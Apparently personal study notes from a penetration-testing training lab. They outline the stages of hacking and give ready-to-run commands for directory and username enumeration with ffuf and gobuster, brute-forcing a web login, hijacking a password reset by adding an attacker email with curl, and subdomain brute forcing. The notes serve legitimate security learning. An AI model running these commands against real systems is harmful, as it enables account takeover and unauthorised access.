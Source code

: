 ## General Notes

### Hacking Stages
1. *Information Gathering* - Conducting open-Source intelligence (OSINT), social engineering, and darkweb research.
2. *Enumeration/Scanning* - Discovering running hosts, services and applications that could have vulnerabilities.
3. *Exploitation* - Leveraging the vulnerabilities using research, metasploit or other tool to gain a foothold on the system.
4. *Privilege Escalation* - Expand access by getting root or other method of accessing the desired objective beyond the current user account/permission set.
5. *Post-exploitation* - Pivoting to other targets, gaining additional information as a privileged user, covering tracks and reporting the results

### Knowledge Tidbits
* `find` and `locate` are useful Linux tools for finding files.
> `find -name "flag*"` will find all files that begin with the text flag.
> `find /usr -type d -name "secret"` will find all directories in \usr that are named secret.

* ffuf, dirb, and gobuster are web discovery automation tools that take common wordlists. They can discover directories, files, usernames, or subdomains.
> For example, `gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt` will enumerate the directories/files on the target web server.

> `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists` will return a list of valid usernames if the site provides a message.

> `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200` will brute force a web login.

* curl is a flexible web requesting tool for all kinds of purposes
> For example, `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'` will reset an account specifying the hacker's email address.

* Sublist3r is a Python subdomain discovery tool.
> For example, `python sublist3r.py -b -d example.com` will enumerate subdomains using the bruteforce module.

* Telnet can work with cleartext application protocols such as FTP, HTTP, IMAP, POP3, IMAP, and SMTP.
> For example, `telnet 10.10.194.41 110` will allow you to connect to POP3 server.
